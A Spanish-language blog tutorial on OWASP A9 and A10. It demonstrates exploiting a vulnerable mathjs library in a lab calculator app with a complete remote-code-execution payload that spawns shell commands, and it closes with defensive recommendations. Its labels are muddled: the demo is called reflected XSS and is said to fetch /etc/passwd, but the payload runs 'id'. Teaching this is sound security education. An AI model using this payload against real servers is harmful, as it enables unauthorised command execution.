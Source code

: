 ```yaml
---
layout: post
title:  "Explotando vulnerabilidades conocidas y los riesgos de falta de monitoreo"
description: "Explotando los 10 riesgos mas criticos segun el OWASP VIII"
date:   2019-07-17
image:  "img/OwaspTopTen.jpg"
tags:   [Vulnerabilidades Conocidas, Pentesting WEB, Hacking NodeJS]
---
```


Hello Engineers!   
En el dia de hoy, vamos a aprender acerca de una debilidad muy usual y critica en las aplicaciones web.  

**A9 - Using Components with Known Vulnerabilities**  
Son todas aquellas vulnerabilidades que se descubrieron en componentes de código abierto y se publicaron en NVD, avisos de seguridad o rastreadores de problemas. Desde el momento de la publicación, los hackers pueden encontrar una vulnerabilidad que encuentre la documentación.  

## Conceptos Basicos  
**CVE (Common Vulnerabilities and Exposures)**  
Es una lista de información registrada sobre vulnerabilidades de seguridad conocidas, en la que cada referencia tiene un número de identificación único.1​ De esta forma ofrece una nomenclatura común para el conocimiento público de este tipo de problemas, facilitando la compartición de datos sobre dichas vulnerabilidades.  
[Articulo Completo](https://es.wikipedia.org/wiki/Common_Vulnerabilities_and_Exposures)    

**National Vulnerability Database (NVD)**  
Es el repositorio del gobierno de los EE. UU. De datos de gestión de vulnerabilidades basados ​​en estándares representados mediante el Protocolo de automatización de contenido de seguridad (SCAP). Estos datos permiten la automatización de la gestión de vulnerabilidades, la medición de seguridad y el cumplimiento. NVD incluye bases de datos de listas de verificación de seguridad, fallas de software relacionadas con la seguridad, configuraciones erróneas, nombres de productos y métricas de impacto.   
[Articulo Completo](https://en.wikipedia.org/wiki/National_Vulnerability_Database)  

## Explotando las vulnerabilidades mas criticas en aplicaciones WEB.  
## Uso de Componentes con Vulnerabilidades Conocidas  
**Escenario de la prueba #1:**   
Vamos aprender a explotar esta vulnerabilidad por medio de un formulario que usa la libreria mathjs.  

Inicialmente vamos a dirigirnos al apartado para realizar la prueba de inyeccion de XSS reflejada.  
**http://172.17.0.2:9090/app/calc**  


<figure>
  <img src="{{site.baseurl}}/img/calc-web.png" >
	<figcaption>
    <a href="{{site.baseurl}}/img/calc-web.png" title="Formulario con funcionalidad de calculadora">Formulario con funcionalidad de calculadora</a>.
  </figcaption>
</figure>

La funcionalidad normal del formulario previamente indicado es para realizar calculos matematicos, en otras palabras es una calculadora WEB.  
La versión de la biblioteca **mathjs** utilizada en la aplicación tiene una vulnerabilidad de ejecución remota de código que permite a un atacante ejecutar código arbitrario en el servidor.  

<figure>
  <img src="{{site.baseurl}}/img/xss.png" >
	<figcaption>
    <a href="{{site.baseurl}}/img/xss.png" title="Tabla renderizando lo cargado en el uploader">Tabla renderizando lo cargado en el uploader</a>.
  </figcaption>
</figure>

Vamos a crear un archivo JSON malicioso, con el cual obtendremos el archivo **/etc/passwd**.  
La carga util "maliciosa" que usaremos es la siguiente:  

{% highlight js %}
cos.constructor("spawn_sync = process.binding('spawn_sync'); normalizeSpawnArguments = function(c,b,a){if(Array.isArray(b)?b=b.slice(0):(a=b,b=[]),a===undefined&&(a={}),a=Object.assign({},a),a.shell){const g=[c].concat(b).join(' ');typeof a.shell==='string'?c=a.shell:c='/bin/sh',b=['-c',g];}typeof a.argv0==='string'?b.unshift(a.argv0):b.unshift(c);var d=a.env||process.env;var e=[];for(var f in d)e.push(f+'='+d[f]);return{file:c,args:b,options:a,envPairs:e};};spawnSync = function(){var d=normalizeSpawnArguments.apply(null,arguments);var a=d.options;var c;if(a.file=d.file,a.args=d.args,a.envPairs=d.envPairs,a.stdio=[{type:'pipe',readable:!0,writable:!1},{type:'pipe',readable:!1,writable:!0},{type:'pipe',readable:!1,writable:!0}],a.input){var g=a.stdio[0]=util._extend({},a.stdio[0]);g.input=a.input;}for(c=0;c<a.stdio.length;c++){var e=a.stdio[c]&&a.stdio[c].input;if(e!=null){var f=a.stdio[c]=util._extend({},a.stdio[c]);isUint8Array(e)?f.input=e:f.input=Buffer.from(e,a.encoding);}}console.log(a);var b=spawn_sync.spawn(a);if(b.output&&a.encoding&&a.encoding!=='buffer')for(c=0;c<b.output.length;c++){if(!b.output[c])continue;b.output[c]=b.output[c].toString(a.encoding);}return b.stdout=b.output&&b.output[1],b.stderr=b.output&&b.output[2],b.error&&(b.error= b.error + 'spawnSync '+d.file,b.error.path=d.file,b.error.spawnargs=d.args.slice(1)),b;}")();cos.constructor("return spawnSync('id').output[1]")()
{% endhighlight %}    

Al cargar el archivo logramos obtener el siguiente resultado:  

<figure>
  <img src="{{site.baseurl}}/img/rce.png" >
	<figcaption>
    <a href="{{site.baseurl}}/img/rce.png" title="Ejecutando comandos desde el aplicativo WEB">Ejecutando comandos desde el aplicativo WEB</a>.
  </figcaption>
</figure>

Con el payload anterior, logramos ejecutar el comando **id**, el cual sirve para saber uid y el usuario autenticado.  

## A10 - Insufficient Logging and Monitoring   
El registro y monitoreo insuficientes ocurren en cualquier momento:   
 - Eventos auditables, tales como los inicios de sesión, fallos en el inicio de sesión, y transacciones de alto valor no son registrados.   
 - Advertencias y errores generan registros poco claros, inadecuados o ninguno en absoluto.   
 - Registros en aplicaciones o APIs no son monitoreados para detectar actividades sospechosas.   
 - Los registros son almacenados únicamente de forma local.   
 - Los umbrales de alerta y de escalamiento de respuesta no están implementados o no son eficaces. • Las pruebas de penetración y escaneos utilizando herramientas DAST (como OWASP ZAP) no generan alertas.   
 - La aplicación no logra detectar, escalar o alertar sobre ataques en tiempo real.  


## Recomendaciones para el A9  
Remover dependencias, funcionalidades, componentes, archivos y documentación innecesaria y no utilizada.  
  - Utilizar una herramienta para mantener un inventario de versiones de componentes (por ej. frameworks o bibliotecas) tanto del cliente como del servidor.  
  - Monitorizar continuamente fuentes como CVE y NVD en búsqueda de vulnerabilidades en los componentes utilizados.  
  - Utilizar herramientas de análisis automatizados. Suscribirse a alertas de seguridad de los componentes utilizados.    
  - Supervisar bibliotecas y componentes que no poseen mantenimiento o no liberan parches de seguridad para sus versiones obsoletas o sin soporte. Si el parcheo no es posible, considere desplegar un parche virtual para monitorizar, detectar o protegerse contra la debilidad detectada.  

## Recomendaciones para el A10  
Según el riesgo de los datos almacenados o procesados por la aplicación:  
  - Asegúrese de que todos los errores de inicio de sesión, de control de acceso y de validación de entradas de datos del lado del servidor se pueden registrar para identificar cuentas sospechosas. Mantenerlo durante el tiempo suficiente para permitir un eventual análisis forense.   
  - Asegúrese de que las transacciones de alto impacto tengan una pista de auditoría con controles de integridad para prevenir alteraciones o eliminaciones.  
  - Asegúrese que todas las transacciones de alto valor poseen una traza de auditoría con controles de integridad que permitan detectar su modificación o borrado, tales como una base de datos con permisos de inserción únicamente u similar.  

## Aprende hacking explotando las vulnerabilidades mas criticas en aplicaciones WEB.  

 - [A1: Inyección](https://hackingprofessional.github.io/Security/Como-realizar-una-inyeccion-SQL-OWASP-I)   
 - [A2: Pérdida de Autenticación](https://hackingprofessional.github.io/Security/Perdida-de-autenticacion-y-exposicion-de-datos-OWASP-II)  
 - [A3: Exposición de datos sensibles](https://hackingprofessional.github.io/Security/Perdida-de-autenticacion-y-exposicion-de-datos-OWASP-II)  
 - [A4: Entidades Externas XML (XXE)](https://hackingprofessional.github.io/Security/Como-realizar-una-inyeccion-XML-OWASP-III)  
 - [A5: Pérdida de Control de Acceso](https://hackingprofessional.github.io/Security/Evadiendo-controles-de-acceso-OWASP-IV)  
 - [A6: Configuración de Seguridad Incorrecta](https://hackingprofessional.github.io/Security/El-riesgo-de-las-Configuraciones-Incorrectas-de-Seguridad-OWAPS-V/)  
 - [A7: Secuencia de Comandos en Sitios Cruzados (XSS)](https://hackingprofessional.github.io/Security/Aprende-a-realizar-una-inyeccion-XSS-OWASP-VI)  
 - [A8: Deserialización Insegura](https://hackingprofessional.github.io/Security/Aprende-que-es-Deserializacion-Insegura-OWASP-VII/)  
 - [A9: Componentes con vulnerabilidades conocidas](https://hackingprofessional.github.io/Security/Explotando-vulnerabilidades-conocidas-OWASP-VIII)  
 - [A10: Registro y Monitoreo Insuficientes](https://hackingprofessional.github.io/Security/Explotando-vulnerabilidades-conocidas-OWASP-VIII)  



 [Para mas informacion leer el siguiente PDF publicado por el OWASP](https://www.owasp.org/images/5/5e/OWASP-Top-10-2017-es.pdf)